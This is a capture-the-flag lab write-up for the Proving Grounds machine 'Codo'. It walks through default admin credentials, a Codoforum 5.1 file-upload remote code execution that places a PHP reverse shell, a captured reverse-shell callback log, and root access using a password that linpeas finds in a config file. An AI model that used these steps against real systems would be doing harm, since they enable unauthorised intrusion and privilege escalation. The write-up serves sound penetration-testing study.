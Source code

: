 ```yaml
---
title: "Proving grounds Play: Codo"
layout: post
date: 2023-10-04 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- Codoforum
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp open  http - Apache httpd 2.4.41 ((Ubuntu))

http://192.168.211.23/

![img](/assets/images/CTF/Proving_Grounds/Codo/web.png)

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Codo/web2.png)

Login to the admin dashboard using credentials `admin:admin`.

![img](/assets/images/CTF/Proving_Grounds/Codo/web3.png)

**Codoforum Current version: V.5.1.105**

The version is vulnerable to [CodoForum v5.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50978).

The exploit is not working properly so manual exploitation is necessarily required to obtain the initial foothold.

## Initial Foothold

**Code Explained**

```py
loginURL = options.target + '/admin/?page=login'
globalSettings = options.target + '/admin/index.php?page=config'
payloadURL = options.target + '/sites/default/assets/img/attachments/'
```

- As per the code the user has to login as admin.
- And navigate to `/admin/index.php?page=config`.
- Upload reverse shell.
- Trigger reverse shell at `/sites/default/assets/img/attachments/` + `uploaded_file_name`.

```py
    print("[*] Checking webshell status and executing...")
    payloadExec = session.get(payloadURL + randomFileName + '.php', proxies=proxy)
```

Upload pentest monkey PHP reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Codo/rev_shell.png)

Trigger reverse shell at.

`http://192.168.211.23/sites/default/assets/img/attachments/shell.php`.

```sh
listening on [any] 4444 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.211.23] 55984
Linux codo 5.4.0-150-generic #167-Ubuntu SMP Mon May 15 17:35:05 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 14:02:20 up 19 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@codo:/$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Download and run [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

The script will find the password configured in the PHP config files in the system. 

```sh
╔══════════╣ Searching passwords in config PHP files
/var/www/html/sites/default/config.php:  'password' => 'FatPanda123',
```

Use the password to login to root.

```sh
www-data@codo:/tmp$ su root
su root
Password: FatPanda123

root@codo:/tmp# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).